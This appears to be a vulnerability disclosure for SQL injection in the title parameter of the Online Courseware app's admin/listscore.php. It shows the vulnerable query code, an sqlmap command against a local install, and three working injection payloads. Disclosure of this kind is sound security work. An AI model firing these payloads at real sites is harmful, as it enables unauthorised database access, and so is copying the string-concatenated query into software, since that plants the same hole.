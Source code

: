 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware - SQL Injection on (admin/listscore.php title parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
admin/listscore.php 

On this page, title parameter is vulnerable to SQL Injection Attack 
### Source code(pcci/admin/listscore.php):
```
$title=$_GET['title'];
$result = mysqli_query($conn,"SELECT * FROM stud_scores WHERE cat='$cat' AND title='$title' AND examtype='regularquiz'");
```
### Proof of vulnerability(Verify using the sqlmap tool after logining ):
#### -> sqlmap -u http://localhost/onlinecourseware/pcci/admin/listscore.php?title=sasssasas&cat=Grammar --batch
### Output:
```
---
Parameter: title (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: title=sasssasas' OR NOT 5806=5806#&cat=Grammar

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: title=sasssasas' OR (SELECT 1622 FROM(SELECT COUNT(*),CONCAT(0x7162767871,(SELECT (ELT(1622=1622,1))),0x7162786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- wLWF&cat=Grammar

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=sasssasas' AND (SELECT 4336 FROM (SELECT(SLEEP(5)))HoHV)-- qJzV&cat=Grammar
---
```

